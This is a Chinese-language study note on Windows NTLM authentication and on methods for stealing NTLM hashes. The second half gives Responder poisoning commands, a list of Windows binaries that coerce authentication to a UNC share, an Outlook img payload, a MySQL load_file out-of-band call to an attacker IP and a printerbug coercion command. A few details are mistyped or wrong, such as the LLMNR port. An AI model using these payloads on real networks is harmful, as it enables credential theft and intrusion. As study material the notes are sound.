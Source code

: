 ```yaml
---
title: NTLM协议
tags: windows
---
```


# NTLM协议

## 概念

### Hash

windows 内部只保存密码的 hash，并不保存明文密码，本机用户的hash保存在本地的 SAM 文件中，域内用户的 hash 保存在域控的 NTDS.dit 文件中。

windows导出密码时，密码格式通常为：

```
Username:group id:LM Hash:NTLM Hash:::
```

LM Hash 是 windows 早期用的加密算法，为了解决 LM 加密和身份验证中固有的安全弱点，1993年微软引进了 NTLM 协议。从 Windows7 和 Windows Server 2008 开始，默认情况下系统只会存储 NTLM Hash。

### 计算

+ 密码转十六进制格式
+ Unicode 编码
+ MD4

### 身份验证

NTLM 验证是一种 Challenge/Response 验证机制，由三种消息组成：协商、质询、验证

+ 客户端向服务端发送协商信息，主要包含客户端支持和服务器请求的功能列表
+ 服务器响应质询消息，包含服务器支持和同意的功能列表，以及服务器产生的 Challenge
+ 客户端接收到 Challenge 后，用用户 Hash 与 Challenge 进行加密运算得到 Response，将 Response、username、Challenge 作为验证信息发给服务器
+ 服务器拿到验证信息后，用 Challenge 和用户 Hash 进行加密得到 Response2，与验证信息中的 Response 进行比较
+ 如果用户 Hash 存储在域控中，用户服务器就会通过 NetLogon 协议联系域控，建立一个安全通道，将 协商、质询和验证消息都发给域控，这个过程也被称为 Pass Through Authenication 认证流程。域控使用 Challenge 和用户 Hash 进行加密得到 Response2， 与验证消息中的 Response 比较

### NTLM v1/v2

验证中的响应有六种，其中的 NTLM v1 是基于 NT 客户端发送的，包括 Windows 2000 和 XP， NTLM v2 是在 Windows NT Service Pack4 中引入的响应类型。

Challenge/Response验证机制里面type3 response里面包含Net-ntlm hash，NTLM v1响应和NTLMv2响应对应的就是Net-ntlm hash分为Net-ntlm hash v1和Net-ntlm hash v2。

#### NTLM v1

v1 是8位的 Challenge，它的加密算法是将16字节的 NTLM Hash 填充为21个字节，然后分成3组，作为3DES加密算法的3组密钥，加密 Server 发送来的 Challenge，三个密文值连接起来得到 Response。

Net-ntlm hash v1

```
username::hostname:LM response:NTLM response:challenge
```

#### NTLM v2

v2是16位的 Challenge，加密算法：

+ 将 Unicode 后的大写用户名与 Unicode 后的身份验证目标（指定的域或服务器名称）拼在一起，使用 16字节 NTLM Hash 作为密钥，得到一个值
+ 构建 blob 信息
+ 用 NTLM v2 Hash 作为密钥，将 HMAC-MD5 消息认证代码算法加密来自质询的 Challenge 与 Blob 拼接在一起，得到一个16字节的 NTProofStr
+ 将 NTProofStr 与 Blob 拼接起来得到 Response

Net-ntlm hash v2

```
username::domain:challenge:HMAC-MD5:blob
```



## NTLM 请求

### LLMNR 和 NBNS

windows 解析域名顺序：

+ hosts
+ DNS
+ LLMNR
+ NBNS

#### LLNMR

LLMNR 是一种基于 DNS 数据包的格式，监听端口为 UDP：5535，IPv4 的广播地址为 224.0.0.252，IPv6 的广播地址为 FF02:0:0:0:0:0:1:3 或 FF02::1:3。LLNMR 采取的是广播的形式，当主机访问一个不存在的域名时，在本机 hosts 中没找到，DNS也无法解析，就会通过 LLMNR 协议进行广播，通过 Responder 进行响应，告知域名解析IP就可以进行类似 ARP 投毒的 LLMNR 投毒，进而获取主机的 NTLM v2 Hash。

#### NBNS

NBNS 全称为 NetBIOS Name Service。NetBIOS 解析过程为：

+ 检查本地 NetBIOS 缓存
+ 如果缓存中没有且配置了 WINS 服务器，就会向 WINS 服务器发出请求
+ 如果没有配置 WINS 服务器或 WINS 服务器无响应就会向当前子网域发送广播
+ 广播无回应就会读取本地的 lmhosts 文件（C:\Windows\System32\drivers\etc\）

在没有配置 WINS 服务器的情况下，NBNS 也会进行广播，所以也存在 NBNS 投毒。



### 使用 Responder 抓取NTLM v2 Hash

在kali下执行

```
responder -I eth0 -v
```

目标机器执行

```
net use \\123\1
```

网络上的用户需要访问没有 IP 或用户类型分析名的 share，就会触发到网络的 LLMNR 请求，responder 就会伪装成该访问的机器，从而获得 NTLM v2 Hash

![image-20210618105818213](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210618105818213.png)



### 发起 NTLM 请求

#### 执行命令

```
 net.exe use \hostshare 
 attrib.exe \hostshare  
 bcdboot.exe \hostshare  
 bdeunlock.exe \hostshare  
 cacls.exe \hostshare  
 certreq.exe \hostshare #(noisy, pops an error dialog) 
 certutil.exe \hostshare  
 cipher.exe \hostshare  
 ClipUp.exe -l \hostshare  
 cmdl32.exe \hostshare  
 cmstp.exe /s \hostshare  
 colorcpl.exe \hostshare #(noisy, pops an error dialog)  
 comp.exe /N=0 \hostshare \hostshare  
 compact.exe \hostshare  
 control.exe \hostshare  
 convertvhd.exe -source \hostshare -destination \hostshare  
 Defrag.exe \hostshare  
 diskperf.exe \hostshare  
 dispdiag.exe -out \hostshare  
 doskey.exe /MACROFILE=\hostshare  
 esentutl.exe /k \hostshare  
 expand.exe \hostshare  
 extrac32.exe \hostshare  
 FileHistory.exe \hostshare #(noisy, pops a gui)  
 findstr.exe * \hostshare  
 fontview.exe \hostshare #(noisy, pops an error dialog)  
 fvenotify.exe \hostshare #(noisy, pops an access denied error)  
 FXSCOVER.exe \hostshare #(noisy, pops GUI)  
 hwrcomp.exe -check \hostshare  
 hwrreg.exe \hostshare  
 icacls.exe \hostshare   
 licensingdiag.exe -cab \hostshare  
 lodctr.exe \hostshare  
 lpksetup.exe /p \hostshare /s  
 makecab.exe \hostshare  
 msiexec.exe /update \hostshare /quiet  
 msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)  
 mspaint.exe \hostshare #(noisy, invalid path to png error)  
 msra.exe /openfile \hostshare #(noisy, error)  
 mstsc.exe \hostshare #(noisy, error)  
 netcfg.exe -l \hostshare -c p -i foo
```

#### outlook

邮件支持 html 格式，同时图片路径支持 UNC，所以可以构造 payload：

```
<img src="\\192.168.1.1\outlook">
```

#### Mysql

Mysql注入可以进行带外通信将数据带出来,前提是具备load_file权限，且没有secure_file_priv的限制，LOAD_FILE 也支持 UNC 路径

```
select load_file('\\\\192.168.1.1\\mysql');
```

#### 打印机

Windows 默认启用 MS-RPRN 协议，勇于打印机客户端和服务端的通信，任何经过身份验证的域成员都可以连接到远程服务器的打印服务（spoolsv.exe），并请求对一个新的打印作业进行更新，令其将该通知发送给指定目标。之后它会将立即测试该连接，即向指定目标进行身份验证（攻击者可以选择通过Kerberos或NTLM进行验证）。

```
ython printerbug.py 域/用户名:密码@打印机服务ip 回连ip
```